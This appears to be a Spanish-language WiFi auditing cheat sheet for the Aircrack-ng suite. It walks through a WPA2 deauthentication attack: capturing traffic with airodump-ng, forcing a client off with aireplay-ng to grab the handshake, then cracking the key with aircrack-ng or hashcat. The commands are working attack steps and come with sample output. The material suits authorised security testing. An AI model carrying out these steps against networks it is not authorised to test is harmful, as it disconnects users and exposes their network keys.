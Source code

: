 # Info

Aircrack es una suite diseñada para auditorías de WIFI.

| Tool | Desc |
|-----|------|
|Airmon-ng |	Airmon-ng puede habilitar y deshabilitar el modo monitor en interfaces inalámbricas.|
|Airodump-ng |	Airodump-ng puede capturar fotogramas 802.11 sin formato.|
|Airgraph-ng |	Airgraph-ng se puede utilizar para crear gráficos de redes inalámbricas utilizando los archivos CSV generados por Airodump-ng.|
|Aireplay-ng |	Aireplay-ng puede generar tráfico inalámbrico.|
|Airdecap-ng |	Airdecap-ng puede descifrar archivos de captura WEP, WPA PSK o WPA2 PSK.|
|Aircrack-ng |	Aircrack-ng puede descifrar redes WEP y WPA/WPA2 que utilizan claves preshared o PMKID.|

# Cracking de hashes

WPA, WPA2 y WPA3 soportan 2 tipos de autenticaciones: **Pre-shared Keys (PSK)** y **Enterprise**

**WPA** y **WPA2** tienen prácticamente el mismo método de autenticación por lo que todas las técnicas de ambas tecnologías son intercambiables.

**WPA3** tiene similitudes con **WPA** pero usa **Simultaneous Authentication of Equals (SAE)** y no es vulnerable a ataques offline.


# Deautenticated Attack

#### 1) Ponemos nuestra interface en modo monitor

#### 2) Sniffamos la red con airodump

    sudo airodump-ng <interface>

#### 3) Seleccionamos nuestro AP target

    sudo airodump-ng -c <channel> -w <prefix> --essid <essid> --bssid <bssid> <interface>

Caso de ejemplo:

    kali@kali:~$ sudo airodump-ng -c 3 -w wpa --essid wifu --bssid 34:08:04:09:3D:38 wlan0mon
    ...
    
    CH  3 ][ Elapsed: 12 s ][ 2020-02-29 13:30 ][
    
     BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
    
     34:08:04:09:3D:38  -45  87      107       69    1   3  54e. WPA2 CCMP   PSK  wifu
    
     BSSID              STATION            PWR   Rate    Lost  Packets  Probes
    
     34:08:04:09:3D:38  00:18:4D:1D:A8:1F  -26   54-54      0       31

#### 4) Obtenemos los datos de nuestro target(parte superior) y la MAC de un cliente que lo esté consumiendo (Station de la parte inferior)
#### 5) Desde otra terminal desautenticamos al cliente con aireplay

    sudo aireplay-ng -0 1 -a 34:08:04:09:3D:38 -c 00:18:4D:1D:A8:1F wlan0mon

#### 6) Cuando el cliente se reconecte airodump va a poder recolectar el handshake

Si no captura el handshake podemos repetir el paso **5** de las siguientes maneras:

- Moviendonos a una posición más cercana al router
- Algunos routers no soportan la desautenticación directa, por lo que tendremos que probar un broadcast: el mismo comando pero sin la flag -c (y el argumento)
- Si el tipo de conexión es 802.11w está en uso, no soporta desautenticaciones desencriptadas. Tendremos que dejar la recolección hasta que alguien se conecte.

Una vez capturado el handshake lo dejamos unos minutos más para obtener un poco más de info y cerramos airodump

#### 7) Utilizamos aircrack para crackear el handshake

    aircrack-ng -w <dictio> -e <essid> -b <bssid> <.pcap>

#### 8) Confirmamos que la clave sea correcta

    airdecap-ng -b <bssid> -e <essid> -p <passphrase> <.pcap>

Si el resultado muestra que se lograron desencriptar un monto de paquetes del pcap, entonces la pass-phrase es correcta.

### Realizar el crack con hashcat

Necesitamos los "utils" de hashcat

    sudo apt install hashcat-utils
    
#### 1) Convertimos el pcap a hccapx


    /usr/lib/hashcat-utils/cap2hccapx.bin <.pcap> output.hccapx

#### 2) Pasamos el archivo final por hashcat

    hashcat -m 2500 --depreciated-check-disable output.hccapx <dictio>
